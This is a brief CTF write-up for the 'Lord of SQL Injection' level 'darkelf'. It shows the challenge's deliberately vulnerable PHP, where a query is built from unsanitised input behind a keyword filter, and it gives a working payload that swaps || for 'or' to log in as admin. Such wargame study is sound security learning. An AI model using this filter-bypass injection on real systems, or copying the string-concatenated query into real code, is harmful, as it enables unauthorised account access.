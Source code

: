 # Lord-Of-SQL-Injection 06 darkelf

## Overview

```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
    $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
    if($result['id'] == 'admin') solve("darkelf");
    highlight_file(__FILE__);
?>
```

## How to solve

or 과 and를 필터링 한다.

하지만 or는 `||`로, and는 `&&`로 치환이 가능하다.

`1' || id='admin`
